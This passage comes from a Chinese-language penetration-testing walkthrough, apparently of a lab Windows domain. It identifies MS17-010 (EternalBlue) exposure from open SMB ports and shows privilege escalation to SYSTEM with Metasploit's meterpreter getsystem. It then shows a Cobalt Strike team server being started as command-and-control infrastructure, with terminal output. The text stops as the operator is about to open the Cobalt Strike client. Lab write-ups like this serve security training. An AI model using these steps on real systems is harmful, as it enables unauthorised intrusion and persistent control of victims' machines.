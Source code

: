 通过端口情况可以发现两台服务器的135 139 445开放，其均为永恒之蓝 MS17-010 的漏洞特征，因此我们可以尝试使用metasploit进行MS17-010的攻击。



## 权限提升

### 法一：MSF

```
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 法二：使用CS模块 (含渗透)

先将CS服务端开起来

```shell
┌──(root㉿kali)-[/home/kali/Desktop/csrun]
└─# ./teamserver  
[*] Generating X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[*] ./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]

        <host> is the (default) IP address of this Cobalt Strike team server
        <password> is the shared password to connect to this server
        [/path/to/c2.profile] is your Malleable C2 profile
        [YYYY-MM-DD] is a kill date for Beacon payloads run from this server

                                                                                     
┌──(root㉿kali)-[/home/kali/Desktop/csrun]
└─# ./teamserver 192.168.220.137 123456
[*] Will use existing X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: b72145ea2b81b84481d743de0a082e74bd6a942fd5ba06cc35cc35dc8804b90d

```

然后打开CS
